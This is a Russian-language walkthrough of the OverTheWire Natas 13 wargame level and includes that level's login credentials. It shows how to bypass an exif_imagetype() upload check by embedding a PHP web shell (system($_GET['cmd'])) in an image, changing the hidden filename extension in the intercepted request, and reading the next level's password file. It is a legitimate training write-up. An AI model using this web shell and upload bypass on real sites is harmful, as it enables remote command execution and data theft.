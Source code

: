 Natas13

login:natas13
password:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

1) На главной странице как и на прошлом уровне есть возможность загрузки изображений, но в этот раз кроме ограничения в 1кб сказано что так же будет
проверятся расширение файла. Есть возможность просотреть исходный код(View sourcecode)
![изображение](https://user-images.githubusercontent.com/54982244/173426534-b121b338-04ae-4bc2-bd78-97c2995d61bb.png)
2) Перейдем в исходный код и попробуем узнать каким образом происходит проверка расширения файла. В коде можно увидить такую строку.

        else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
        } 
 exif_imagetype() считывает начальные байты изображения и проверяет их сигнатуру. (https://www.php.net/manual/ru/function.exif-imagetype.php)
 
 Значит эта функция считает первые байты файла и по ним определит является ли наш файл изображением.
 
 3) За исключением дополнительной проверки начальных байт функцией exif_imagetype() ничего не изменилось с прошлого уровня. Так же как и раньше
 загружаему файлу присваевается расширения на основе, строки (имени файла) в hidden параметре.
 
        <input type="hidden" name="filename" value="7alb45pad1.jpg" />
        
 4) Обойдем проверку функции exif_imagetype() с помощью редактирования файла в hex редакторе. (Варианты) 
    1.Взять легетимные начальные байты изображения встроить их в .php файл.
    2.Взять картинку и вписать в нее вредносной код.
   
php код

      <?php
          if(isset($_GET['cmd']))
          {
              system($_GET['cmd']);
          }
      ?>
 
 5) Скачал картинку подходящую по размеру и открыл ее в hex редаторе. Не повредив начальные байты встроим в нее php код.
 ![изображение](https://user-images.githubusercontent.com/54982244/173428836-b9a38d84-7513-41f9-82b1-50a1c6226ba6.png)
 
 6)Перехватим запрос загрузки файла и поменяем строку со скрытым параметром, на основе которого и присваивается расширение к итоговому именя файла.
 ![изображение](https://user-images.githubusercontent.com/54982244/173429658-23df1486-d4e0-495d-a791-e635dce279a9.png)
 7) Перейдем к загруженому файлу по сформированной ссылке. Для проверки отправим GET запрос ?cmd=id. Видим вывод системной команды.
 ![изображение](https://user-images.githubusercontent.com/54982244/173429929-50e6b9ea-106f-449d-93b2-4d2d55ac1f8b.png)
 8) Забираем пароль к следующему уровню (cat%20/etc/natas_webpass/natas14)
![изображение](https://user-images.githubusercontent.com/54982244/173430142-02f36f08-9615-4f5a-b9b2-9912763e5219.png)


 
        
   
